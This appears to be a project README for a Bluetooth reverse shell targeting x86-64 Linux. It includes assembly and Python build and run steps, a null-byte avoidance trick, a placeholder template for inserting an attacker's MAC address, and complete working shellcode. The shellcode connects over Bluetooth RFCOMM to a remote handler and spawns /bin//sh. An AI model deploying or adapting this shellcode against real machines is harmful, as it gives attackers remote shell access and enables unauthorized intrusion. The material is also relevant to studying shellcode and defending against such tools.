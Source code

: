 BlueReverse
===========

Bluetooth reverse shell currently for x86-64 Linux system.<br/>


Copyright (C) 2020  Neetx

BlueReverse is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

BlueReverse is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>

### CONTACTS:
[Neetx](mailto:neetx@protonmail.com)

---

BlueReverse has been implemented as personal research and fun. I provide you .asm file (client side), .py 2.7 file (server side) and the shellcode.

You must fill .asm and .py with your mac and with your desired channel for the communication. Then:
```
nasm -f elf64 brev_shell.asm -o test.o
ld test.o -o test
```

Now you must start the server:
```
python bluereversehandler.py
```

And now you can launch test:
```
./test
```
You will get prompt on server side.
I tested the code with a rpi3 (server) and a Debian Stretch (client).

---

### Shellcode:

If you need shellcode you can use my tool ShellcodeExtractor (https://github.com/Neetx/Shellcode-Extractor)

```
objdump -D test.o | python shellcode_extractor.py
```

My output and lenght:
```
\x6a\x29\x58\x6a\x01\x5e\x6a\x1f\x5f\x6a\x03\x5a\x0f\x05\x97\x6a\x02\x66\x5e\xb0\x21\x0f\x05\x83\xee\x01\x79\xf7\x48\x31\xc9\xb1\x03\x51\x48\xb9\xe0\xff\x9f\xea\xa3\x14\xd8\x47\x48\xf7\xd1\x51\x54\x5e\xb2\x0a\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xd2\x52\x5e\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\xb0\x3b\x0f\x05
82
```

You must do it by yourself because you have another MAC and maybe another channel.
If you don't use my tool or another tool/command you have to put your MAC manually after NOT operation, because of this in .asm:
```
mov rcx, ~0xXXXXXXXXXXXX001f		;mac + family(1f=31)
not rcx
```
(~ MAC + 00 (filler) + 1f (family))

00 is a nullbyte and to avoid it I use ~ , so the value after ~ is stored in the binary after a NOT operation and 00 become FF. Then i used "not rcx" to obtain the desired value.

Put your bluetooth MAC address here instead of \xXX\xXX\xXX\xXX\xXX\xXX, in little endian and after NOT operation:

```
\x6a\x29\x58\x6a\x01\x5e\x6a\x1f\x5f\x6a\x03\x5a\x0f\x05\x97\x6a\x02\x66\x5e\xb0\x21\x0f\x05\x83\xee\x01\x79\xf7\x48\x31\xc9\xb1\x03\x51\x48\xb9\xe0\xff\xXX\xXX\xXX\xXX\xXX\xXX\x48\xf7\xd1\x51\x54\x5e\xb2\x0a\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xd2\x52\x5e\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\xb0\x3b\x0f\x05
```

### Shellcode Generator
Instead of the previous steps you can use my generator.py (python >= 3.7) to get the shellcode
```
python generator.py MAC CHANNEL
```

### Test Shellcode:

Put your shellcode in the shellcode_tester.c, compile it and test. 

---

### Screenshot

![alt text](screen.jpg "Example")

